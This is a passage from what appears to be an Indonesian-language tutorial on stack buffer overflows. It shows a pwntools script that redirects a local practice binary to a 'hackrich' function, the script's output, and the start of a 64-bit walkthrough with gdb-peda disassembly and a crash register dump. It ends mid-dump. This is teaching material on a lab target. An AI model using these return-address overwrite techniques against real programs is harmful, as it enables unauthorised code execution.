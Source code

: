 ```python
from pwn import *

p = process('./vuln32')
print(p.recv())
padding = b'0x90'*52
ret_address = p32(0x08049182)
p.sendline(padding+ret_address)
print(p.clean())
p.interactive()
```

```bash
$python3 exploit32.py
[+] Starting local process './vuln32': pid 265
b'give me your input :)\n\n'
b'Hacked !!!!!\n'
[*] Switching to interactive mode
```

akhirnya sukses mengeksekusi fungsi hackrich menggunakan bug/vulnerability buffer overflow

## untuk 64 bit

tidak banyak berbeda namun alamatnya semakin panjang

```bash
gdb-peda$ pdisass hackrich
Dump of assembler code for function hackrich:
   0x0000000000401142 <+0>: push   rbp
   0x0000000000401143 <+1>: mov    rbp,rsp
   0x0000000000401146 <+4>: lea    rdi,[rip+0xeb7]        # 0x402004
```

alamat dari hackrich di 0x0000000000401142

mencari total bytes dari buffer sampai EBP

```bash
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ run
Starting program: /root/You_Tube/Stack_Buffer_Overflow/1/vuln64 
give me your input :)

AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffe4e0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
RBX: 0x0 
RCX: 0x7ffff7fb4a00 --> 0xfbad2288 
RDX: 0x7ffff7fb68d0 --> 0x0 
RSI: 0x405671 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL\n")
RDI: 0x7fffffffe4e1 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
RBP: 0x4147414131414162 ('bAA1AAGA')
RSP: 0x7fffffffe518 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
RIP: 0x40118d (<foo+39>: ret)
R8 : 0x4056d5 --> 0x0 
R9 : 0x0 
R10: 0x405010 --> 0x0 
R11: 0x246 
```